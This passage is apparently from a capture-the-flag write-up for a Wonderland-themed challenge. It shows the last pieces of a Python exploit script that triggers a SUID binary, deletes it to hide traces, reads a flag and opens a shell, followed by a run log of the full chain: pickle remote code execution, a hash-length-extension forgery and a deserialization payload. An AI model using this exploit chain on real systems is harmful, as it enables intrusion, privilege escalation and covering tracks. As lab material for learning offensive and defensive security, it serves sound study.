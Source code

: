 The SUID binary is executed to gain a shell as the `hatter` user and its cleaned up immediately.

```python
    # Drop into the hatter suid shell.
    log.info('Triggering the SUID binary to escalate to the hatter user.')
    c.sendline(b'/tmp/hackers_use_me/pwn2 -p')
    # Remove the binary.
    log.info('Removing the SUID binary to clean up the tracks.')
    c.sendline(b'rm /tmp/hackers_use_me/pwn2')
```

Finally, the flag is retrieved and an interactive shell is dropped.

```python
    # Get the flag.
    log.info('Reading the flag at /home/hatter/flag4')
    log.success('Flag 4:')
    c.sendline('cat /home/hatter/flag4')
    c.sendline('echo END_OF_FLAG')
    log.success(c.recvuntil(b'END_OF_FLAG').replace(b'END_OF_FLAG', b''))

    # Drop into an interactive shell.
    log.success('Enjoy your shell!')
    c.interactive()
```

Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./4_a_mad_tea_party.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[┘] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Teleporting to under-a-giant-mushroom to get the golden-hookah...
[*] Teleporting to /opt/wonderland/logs
[*] Generating pickle RCE payload...
[*] Writing payload to baf21465-9949-4f06-88bb-1848435f13f4.item
[*] Triggering RCE...
[*] Constructing pool-of-tears exploit URL.
[*] Sending curl request to trigger the creation of the SUID binary.
[*] Triggering the SUID binary to escalate to the mouse user.
[*] Removing the SUID binary to clean up the tracks.
[*] Reading the invitation code...
[+] Got invitation code: 031c6d75-63d4-43ea-b40c-07ae9dbdc879
[*] Successfully entered the party.
[*] Successfully set a new name to ensure a large enough input size.
[*] Looking for a suitable cake export...
[*] Caption Length: 0
[*] Cake: CoABQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUEQ6fQBIgdWYW5pbGxh
[*] Digest: 54915cffbff7b2ce16779ef24fd80270ae8584919a232fede1dea9366259db17177c4095910825b0e4452ffaebd9495ffa74cb0d4ffe4b27548b9f72a70dc264
[*] Generating FST Deserialization payload to create a hatter SUID binary.
[*] Constructing the protobuf field from scratch.
[*] Forging the new cake and digest with the malicious fireworks field.
./4_a_mad_tea_party.py:317: DeprecationWarning: PY_SSIZE_T_CLEAN will be required for '#' formats
  forged_digest, forged_data = hashpumpy.hashpump(cake_struct['digest'], cake_base64,
[+] New Cake JSON forged successfully!
[*] Sending the forged JSON.
[*] Triggering the deserialization to create the hatter SUID binary...
[|] Waiting a moment to return back to the shell context...
[*] Triggering the SUID binary to escalate to the hatter user.
```